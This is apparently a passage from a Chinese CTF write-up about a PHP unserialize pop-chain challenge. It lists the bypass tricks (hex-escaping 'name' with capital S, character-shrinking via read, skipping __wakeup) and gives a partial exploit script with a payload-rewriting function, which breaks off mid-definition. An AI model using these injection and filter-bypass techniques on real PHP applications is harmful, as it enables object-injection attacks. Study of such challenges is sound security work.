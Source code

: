 1. pop链中的变量都变成了 protected，反序列化时需格外注意。
2. read 函数有变化，字符是从5个减小到3个。
3. 绕过对于 name 的过滤，可以使用十六进制，然后使用S进行转义处理。否则无法正确处理十六进制
4. 绕过 __wakeup。

利用脚本
```php
<?php

class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

}

class topsolo{
    protected $name;

    public function __construct($name = 'Riven'){
        $this->name = $name;
    }

}

class midsolo{
    protected $name;

    public function __construct($name){
        $this->name = $name;
    }
}

class jungle
{
    protected $name = "";

    public function __construct($name = "Lee Sin")
    {
        $this->name = $name;
    }
}


function console($line){
    $arr = explode(':',$line);
    for ($i = 0;$i<sizeof($arr);$i++){
        if(preg_match('/name/',$arr[$i])){
            $arr[$i] = str_replace("name",'\6e\61\6d\65',$arr[$i]);
            $arr[$i-2] = str_replace('s','S',$arr[$i-2]);
        }
    }
    $result = implode($arr,':');
    $result = str_replace('"midsolo":1:','"midsolo":2:',$result);
    return $result;
}

function pad($poc){
```